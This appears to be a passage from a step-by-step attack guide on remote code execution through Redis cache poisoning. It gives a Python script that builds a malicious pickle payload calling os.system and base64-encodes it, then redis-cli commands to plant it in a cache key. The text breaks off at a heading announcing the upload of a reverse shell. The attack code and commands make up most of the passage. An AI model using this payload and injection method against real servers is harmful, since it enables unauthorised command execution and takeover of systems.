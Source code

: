 ```bash
# Create test_pickle.py
cat > test_pickle.py << 'EOF'
import pickle
import base64
import os

class BenignRCE:
    def __reduce__(self):
        # Simple command: create a test file
        cmd = 'touch /tmp/cache_poison_test'
        return (os.system, (cmd,))

# Serialize the payload
payload = pickle.dumps(BenignRCE())
print("Base64 Payload:")
print(base64.b64encode(payload).decode())
EOF

# Run it
python3 test_pickle.py
```

### 5. Inject Test Payload into Redis

```bash
# Copy the base64 output from previous step
# In redis-cli:

SET test_cache_key "YOUR_BASE64_PAYLOAD_HERE"

# Verify it was set
GET test_cache_key
EXISTS test_cache_key
```

### 6. Test Deserialization (Skip if Unsure)

To test if the payload executes, you'd need to trigger the cache retrieval. For now, verify you can set/get cache values. We'll do actual exploitation next.

```bash
# Check if test file was created (only if app retrieved the key)
# Don't worry if this doesn't work yet - it confirms Redis access

# Clean up test key
DEL test_cache_key
```

### Phase 3: Upload Reverse Shell

Now let's upload a reverse shell script that we can execute via cache poisoning.

### 7. Get Your IP Address
